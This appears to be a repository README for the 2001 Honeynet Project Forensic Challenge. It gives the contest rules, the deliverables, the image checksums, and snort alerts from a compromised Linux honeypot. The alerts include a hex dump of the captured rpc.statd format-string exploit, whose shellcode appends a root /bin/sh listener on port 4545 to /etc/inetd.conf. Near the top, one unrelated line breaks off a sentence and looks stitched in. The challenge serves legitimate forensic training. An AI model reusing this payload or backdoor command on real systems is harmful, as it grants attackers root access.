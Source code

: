 ===================================
Honeynet Project Forensic Challenge
===================================

This repository mirrors and repackages the original data and analyses
from the Honeynet Project `Forensic Challenge`_.  The original web site
can be found at 
Python CLI for managing secrets (passwords, API keys, etc)

Directories and files
~~~~~~~~~~~~~~~~~~~~~

You can find BZ2 compressed partition images in the ``partition-images/``
directory.

Results from the reference analysis by David Dittrich for the Honeynet
Project and all 13 contestants are found in the ``results/`` directory.

The file ``timestamp.txt`` is the original timestamped file with
MD5 hashes of the original images, for "chain of custody" style
integrity validation.  As the new files are now compressed with
a different algorithm, the old ``.gz`` MD5 hashes are useless,
but the uncompressed files should still hash the same.

The Forensic Challenge
----------------------

The Honeynet Project's **Forensic Challenge** was launched on January 15, 2001.
This page links to all the information we've assembled about the Challenge.
This index will help you quickly get to what you want.

-  Introduction_
-  `The Challenge`_
-  `The Rules`_
-  `Partition images <partition-images/>`__
-  `Frequently Asked Questions about the Challenge <faq/>`__
-  `Results of the Challenge <results/>`__

.. _intro:

Introduction
~~~~~~~~~~~~

Every day, incident handlers across the globe are faced with compromised
systems, running some set of unknown programs, providing some kind of
unintended service to an intruder who has taken control of someone else's --
YOUR, or your client's, or customer's -- computers. To most, the response is a
matter of "get it back online ASAP and be done with it." This usually leads to
an inadequate and ineffective response, not even knowing what hit you, with a
high probability of repeated compromise.

On the law enforcement side, they are hampered by a flood of incidents and a
lack of good data. A victim trying to keep a system running or doing a
"quickie" job of cleanup usually means incidents are underreported and
inadequate handling of the evidence leads to no evidence, or tainted evidence.
There has to be a better way to meet the needs of incident handlers and system
administrators, as well as law enforcement, if Internet crime is going to be
managed and not run amok. One possible answer is effective forensic analysis
skills -- widespread knowledge of tools and techniques -- to preserve data,
analyze it, and produce meaningful reports and damage estimates to your
organization's management, to other incident response teams and system
administrators, and to law enforcement.

Enter the Honeynet Project. One of the primary goals of the Honeynet Project is
to find order in chaos by letting the attackers do their thing, and allowing
the defenders to learn from the experience and improve. The latest challenge,
inspired by the Honeynet Project's founder Lance Spitzner, is the Forensic
Challenge. Only this time, we're opening it up to anyone who wants to join in.

The Challenge
~~~~~~~~~~~~~

The Forensic Challenge is an effort to allow incident handlers around the world
to all look at the same data -- an image reproduction of the same compromised
system -- and to see who can dig the most out of that system and communicate
what they've found in a concise manner. This is a nonscientific study of tools,
techniques, and procedures applied to postcompromise incident handling. The
challenge is to have fun, to solve a common real world problem, and for
everyone to learn from the process. If what I've said already isn't enough to
get you interested, Foundstone is generously offering copies of their extremely
popular "Hacking Exposed" (Second Edition) book for the 20 best submissions.

To get you started, here are the basic facts about the compromise:

-  The system was running a default Red Hat Linux 6.2 Server
   installation.
-  The system's time zone was set to GMT-0600 (CST).
-  The following was noted and logged by the Project's IDS of
   choice, `snort <http://www.snort.org>`__.

::

   Nov 7 23:11:06 lisa snort[1260]:
   RPC Info Query: 216.216.74.2:963 -> 172.16.1.107:111

   Nov 7 23:11:31 lisa snort[1260]:
   spp_portscan: portscan status from 216.216.74.2: 2 connections across 1 hosts: TCP(2), UDP(0)

   Nov 7 23:11:31 lisa snort[1260]:
   IDS08 - TELNET - daemon-active: 172.16.1.101:23 -> 216.216.74.2:1209

   Nov 7 23:11:34 lisa snort[1260]:
   IDS08 - TELNET - daemon-active: 172.16.1.101:23 -> 216.216.74.2:1210

   Nov 7 23:11:47 lisa snort[1260]:
   spp_portscan: portscan status from 216.216.74.2: 2 connections across 2 hosts: TCP(2), UDP(0)

   Nov 7 23:11:51 lisa snort[1260]:
   IDS15 - RPC - portmap-request-status: 216.216.74.2:709 -> 172.16.1.107:111

   Nov 7 23:11:51 lisa snort[1260]:
   IDS362 - MISC - Shellcode X86 NOPS-UDP: 216.216.74.2:710 -> 172.16.1.107:871

::

   11/07-23:11:50.870124 216.216.74.2:710 -> 172.16.1.107:871
   UDP TTL:42 TOS:0x0 ID:16143
   Len: 456
   3E D1 BA B6 00 00 00 00 00 00 00 02 00 01 86 B8  >...............
   00 00 00 01 00 00 00 02 00 00 00 00 00 00 00 00  ................
   00 00 00 00 00 00 00 00 00 00 01 67 04 F7 FF BF  ...........g....
   04 F7 FF BF 05 F7 FF BF 05 F7 FF BF 06 F7 FF BF  ................
   06 F7 FF BF 07 F7 FF BF 07 F7 FF BF 25 30 38 78  ............%08x
   20 25 30 38 78 20 25 30 38 78 20 25 30 38 78 20   %08x %08x %08x
   25 30 38 78 20 25 30 38 78 20 25 30 38 78 20 25  %08x %08x %08x %
   30 38 78 20 25 30 38 78 20 25 30 38 78 20 25 30  08x %08x %08x %0
   38 78 20 25 30 38 78 20 25 30 38 78 20 25 30 38  8x %08x %08x %08
   78 20 25 30 32 34 32 78 25 6E 25 30 35 35 78 25  x %0242x%n%055x%
   6E 25 30 31 32 78 25 6E 25 30 31 39 32 78 25 6E  n%012x%n%0192x%n
   90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90  ................
   90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90  ................
   90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90  ................
   90 90 EB 4B 5E 89 76 AC 83 EE 20 8D 5E 28 83 C6  ...K^.v... .^(..
   20 89 5E B0 83 EE 20 8D 5E 2E 83 C6 20 83 C3 20   .^... .^...  ..
   83 EB 23 89 5E B4 31 C0 83 EE 20 88 46 27 88 46  ..#.^.1... .F'.F
   2A 83 C6 20 88 46 AB 89 46 B8 B0 2B 2C 20 89 F3  *.. .F..F..+, ..
   8D 4E AC 8D 56 B8 CD 80 31 DB 89 D8 40 CD 80 E8  [email protected]
   B0 FF FF FF 2F 62 69 6E 2F 73 68 20 2D 63 20 65  ..../bin/sh -c e
   63 68 6F 20 34 35 34 35 20 73 74 72 65 61 6D 20  cho 4545 stream
   74 63 70 20 6E 6F 77 61 69 74 20 72 6F 6F 74 20  tcp nowait root
   2F 62 69 6E 2F 73 68 20 73 68 20 2D 69 20 3E 3E  /bin/sh sh -i >>
   20 2F 65 74 63 2F 69 6E 65 74 64 2E 63 6F 6E 66   /etc/inetd.conf
   3B 6B 69 6C 6C 61 6C 6C 20 2D 48 55 50 20 69 6E  ;killall -HUP in
   65 74 64 00 00 00 00 09 6C 6F 63 61 6C 68 6F 73  etd.....localhos
   74 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  t...............
   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................

A bit-image copy of the active partitions was obtained, as detailed here:

::

   /dev/hda8       /
   /dev/hda1       /boot
   /dev/hda6       /home
   /dev/hda5       /usr
   /dev/hda7       /var
   /dev/hda9       swap

MD5 Checksums (both uncompressed and GNU gzip compressed):

::

   a1dd64dea2ed889e61f19bab154673ab  honeypot.hda1.dd
   c1e1b0dc502173ff5609244e3ce8646b  honeypot.hda5.dd
   4a20a173a82eb76546a7806ebf8a78a6  honeypot.hda6.dd
   1b672df23d3af577975809ad4f08c49d  honeypot.hda7.dd
   8f244a87b8d38d06603396810a91c43b  honeypot.hda8.dd
   b763a14d2c724e23ebb5354a27624f5f  honeypot.hda9.dd

   f8e5cdb6f1109035807af1e141edd76d  honeypot.hda1.dd.gz
   6ef29886be0d9140ff325fe463fce301  honeypot.hda5.dd.gz
   8eb98a676dbffad563896a9b1e99a95f  honeypot.hda6.dd.gz
   be215f3e8c2602695229d4c7810b9798  honeypot.hda7.dd.gz
   b4ff10d5fd1b889a6237fa9c2979ce77  honeypot.hda8.dd.gz
   9eed26448c881b53325a597eed8685ea  honeypot.hda9.dd.gz

Please be aware that these are new images. This is **not** a system that the
Honeynet Project has previously written about or discussed publically. (I.e.,
you won't get any hints from previous Honeynet papers.) The images were edited
to anonymize the system. Only the hostname was modified. Everyone is using the
same data, so any anomalies caused by this editing will be identical.

The image files can be mounted on Linux systems using the loopback interface
like this:

::

    # mkdir /t
    # mount -o ro,loop,nodev,noexec honeypot.hda8.dd /t
    # mount -o ro,loop,nodev,noexec honeypot.hda1.dd /t/boot
    [ etc... ]

Its now your job -- should you choose to accept it! -- to figure out the Who,
What, Where, When, How, and maybe even the Why of this compromise. We don't
expect that everyone undertaking the challenge can or will address all of the
following items, but the list below of questions and deliverables is provided
as a guideline for what to produce and what to focus on:

#. Identify the intrusion method, its date, and time. (Assume the clock on
   the IDS was synchronized with an NTP reference time source.)

#. Identify as much as possible about the intruder(s).

#. List all the files that were added/modified by the intruder.  Provide
   an analysis of these programs (including decompilation or disassembly
   where necessary to determine their function and role in the incident.)

#. Was there a sniffer or password harvesting program installed?
   If so, where and what files are associated with it?

#. Was there a "rootkit" or other post-concealment trojan horse programs
   installed on the system? If so, what operating system programs were
   replaced and how could you get around them? Hint: If you don't know
   what a "rootkit" is, read this:
   `http://staff.washington.edu/dittrich/misc/faqs/rootkits.faq
   <https://staff.washington.edu/dittrich/misc/faqs/rootkits.faq>`__

#. What is publicly known about the source of any programs found on the
   system? (e.g., their authors, where source code can be found, what
   exploits or advisories exist about them, etc.)

#. Build a time line of events and provide a detailed analysis of activity
   on the system, noting sources of supporting or confirming evidence
   (elsewhere on the system or compared with a known "clean" system of
   similar configuration.)

#. Provide a report suitable for management or news media (general aspects
   of the intrusion without specific identifying data).

#. Provide an advisory for use within the home organization (a fictitious
   university, "honeyp.edu", in this case, where I hold an honorary Doctorate,
   by the way) to explain the key aspects of the vulnerability exploited,
   how to detect and defend against this vulnerability, and how to
   determine whether or not other systems were similarly compromised.

#. Produce a cost-estimate for this incident using the following guidelines
   and method: 

   `http://staff.washington.edu/dittrich/misc/faqs/incidentcosts.faq
   <https://staff.washington.edu/dittrich/misc/faqs/incidentcosts.faq>`__

   To simplify and to normalize the results, assume that your annual salary is
   $70,000 and that there are no user-related costs. (If you work as a team,
   break out hours by person, but all members should use the same annual
   salary. Please also include a brief description of each investigator's
   number of years of experience in the fields of system administration,
   programming, and security, just to help us compare the number of hours spent
   with other entrants).

To summarize (and standardize) the deliverables, please produce the following:

::

      File                   Contents
      -----------------------------------------------------------------------
      index.txt              Index of files/directories submitted (including
                             any not listed below.)

      timestamp.txt          Timestamp of MD5 checksums of all files listed
                             and submitted (dating when produced -- see
                             deadline information below.)

      costs.txt              Incident cost-estimate.

      evidence.txt           Time line and detailed (technical) analysis. (Use
                             an Appendix, and/or mark answers to questions
                             above with "[Q1]", etc.)

      summary.txt            Management and media (non-technical) summary.

      advisory.txt           Advisory for consumption by other system
                             administrators and incident handlers within your
                             organization.

      files.tar              Any other files produced during analysis and/or
                             excerpts (e.g., strings output or dissassembly
                             listings) from files on the compromised file
                             system, which are referenced in the previous files.

The Rules
~~~~~~~~~

-  You are free to use any tools or techniques that you choose, provided that
   the judges are able to readily interpret your results and duplicate or verify
   their accuracy using publicly available means (i.e., don't expect us all to
   have a copy of your favorite "Law Enforcement Only" or multi-hundred dollar
   commercial Windows-only tool). A good publicly available free
   forensic toolkit is `TASK <https://www.sleuthkit.org>`__ (made up of
   `Autopsy <https://www.sleuthkit.org/autopsy/download.php>`__ and
   `The Sleuth Kit <https://www.sleuthkit.org/sleuthkit/download.php>`__.
   These tools build on Dan Farmer and Wietse Venema's original `The
   Coroner's Toolkit (TCT)
   <http://www.porcupine.org/forensics/tct.html>`__. If you want
   examples of the use of TCT, or other tools/techniques, see the Forensics
   section of the following web page:

   `https://davedittrich.github.io/ <https://davedittrich.github.io/>`__

   No matter what tools/methods you choose, please make sure you explain them
   in your analysis and cite references to resources (e.g., RFCs, CERT or
   SANS "how to" documents) to help others learn by example. Don't forget:
   this is a Honeynet Project brainchild, so learning is what it's all about.
   And fun. It's all about learning and fun. Oh yeah, and security. Learning,
   fun, AND security. ;)

-  You may work as a team, but if your entry is selected as a Top 20, you'll
   have to fight over one copy of the book.

-  Deliver the results of the analysis in such a way that the judges can quickly
   and easily consume the information, and such that its authenticity, time of
   production, and integrity can be verified independently. (e.g., ISO 9660
   CD-ROM or ``.tar`` archive, with digital time stamps, and PGP signatures
   and/or MD5 checksums.) Please DO NOT SEND COPIES OF COMPLETE FILES FROM THE
   FILE SYSTEM. We already have a copy of the file system and its contents.
   Just note the path (e.g., "[See file /bin/foo]").

-  All submissions **MUST** be time stamped prior to 00:00 GMT on Monday,
   February 19, 2001 [**not** February 15 as the announcement email said], and
   delivery to the judges initiated later that same day. (This is to accommodate
   submissions on IS0 9660 format CD-ROM, which should be postmarked by this
   time. The digital time stamps and postmarks will be used to determine the
   20 "Hacking Exposed" book winners.) One free digital time stamping service
   you can use is `Stamper <http://www.itconsult.co.uk/stamper.htm>`__ .

-  The person who hacked the box is NOT eligible, nor are members of the
   Honeynet Project. Members of the companies employing Honeynet Project members
   are eligible (and encouraged!) to enter, but their entries (even if Top 20)
   will not receive copies of "Hacking Exposed." The books go to other entrants.

-  Entries must be written in English (UK and Aussie English accepted, but go
   light on the regional slang, please! I only have a copy of "*Best of Aussie
   Slang*," and the other judges don't live in Seattle.)

-  Only one entry per household, please. Must be sentient to enter. Sorry, no
   Ginsu Knives come with this offer!

Submissions will be judged by a panel of experts and winners selected and
announced on Monday, March 19, 2001. All decisions of the judges are final (no
recounts or legal challenges by teams of grossly overpaid lawyers will be
tolerated!).

After the winners are announced, all entries will be posted for the security
community to review. We hope that the community can better learn from and
improve from all the different techniques that different people and
organizations use.

Also, we wouldn't be the Honeynet Project if we didn't capture all of the
blackhat's keystrokes as he exploited, accessed, and modified the honeypot! We
will release the Honeypot Project's analysis of the hacked system, as well as
the blackhat's keystrokes, along with the results of the Challenge on March 19.

Good luck, and have fun!

Dave Dittrich

.. |spacer| image:: /images/spacer.gif
   :width: 200px
   :height: 100px
.. |Home| image:: /images/nav_00_home.gif
   :name: home
   :width: 129px
   :height: 28px
   :target: /index.html
.. |About the Project| image:: /images/nav_01_about.gif
   :name: about
   :width: 129px
   :height: 28px
   :target: /misc/project.html
.. |Challenges| image:: /images/nav_04_challenges.gif
   :name: challenges
   :width: 129px
   :height: 30px
   :target: /misc/chall.html
.. |Presentations| image:: /images/nav_05_presentations.gif
   :name: pres
   :width: 129px
   :height: 31px
   :target: /speaking/index.html
.. |Whitepapers| image:: /images/nav_06_whitepapers.gif
   :name: white
   :width: 129px
   :height: 30px
   :target: /papers/index.html
.. |Tools| image:: /images/nav_07_tools.gif
   :name: tools
   :width: 129px
   :height: 30px
   :target: /tools/index.html
.. |Our Book| image:: /images/nav_08_our_book.gif
   :name: book
   :width: 129px
   :height: 29px
   :target: /book/index.html
.. |Funding/Donations| image:: /images/nav_09_funding.gif
   :name: fund
   :width: 129px
   :height: 31px
   :target: /funds/index.html
.. |Status Reports| image:: /images/nav_status.gif
   :name: status
   :width: 129px
   :height: 31px
   :target: /status/index.html
.. |Mirrors| image:: /images/nav_10_mirrors.gif
   :name: mirrors
   :width: 129px
   :height: 28px
   :target: /misc/mirror.html
.. |spacer| image:: /images/spacer.gif
   :width: 19px
   :height: 5px
.. |spacer| image:: /images/spacer.gif
   :width: 5px
   :height: 50px
.. |The Forensic Challenge| image:: /images/page_titles_for_challenge.jpg
   :width: 350px
   :height: 36px
.. |spacer| image:: /images/spacer.gif
   :width: 1px
   :height: 3px
.. |Back to Top| image:: /images/back.gif
   :width: 82px
   :height: 20px
   :target: #top
Credits
---------

The original Honeynet Project `Forensic Challenge`_ web site
is http://old.honeynet.org/challenge/

.. _Forensic Challenge: http://old.honeynet.org/challenge/

